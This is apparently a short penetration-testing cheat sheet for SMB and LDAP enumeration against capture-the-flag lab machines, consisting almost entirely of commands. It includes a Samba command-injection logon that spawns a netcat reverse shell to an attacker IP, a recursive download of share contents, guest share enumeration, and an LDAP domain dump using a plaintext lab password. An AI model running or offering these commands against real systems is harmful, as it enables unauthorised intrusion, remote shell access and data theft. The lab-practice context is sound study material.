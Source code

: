 [Windows](Windows)

Checking Null sessions
```bash
smbmap -H 10.10.10.4
smbclient -N -L //10.10.10.4
```

Creating reverse shell
```bash
smbclient //10.10.10.3/tmp
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
```

```bash
smbmap -H <remote_ip> -u <username> -p <password>
```

```bash
smbclient //10.10.10.100/<share_name> -U ""%""
    RECURSE ON
    PROMPT OFF
    mget *
```

```bash
nxc smb 10.10.11.35 -u guest -p '' --shares
```

```bash
ldapdomaindump -u cicada.htb\\michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35 -o ldapdump
```

https://github.com/abatchy17/WindowsExploits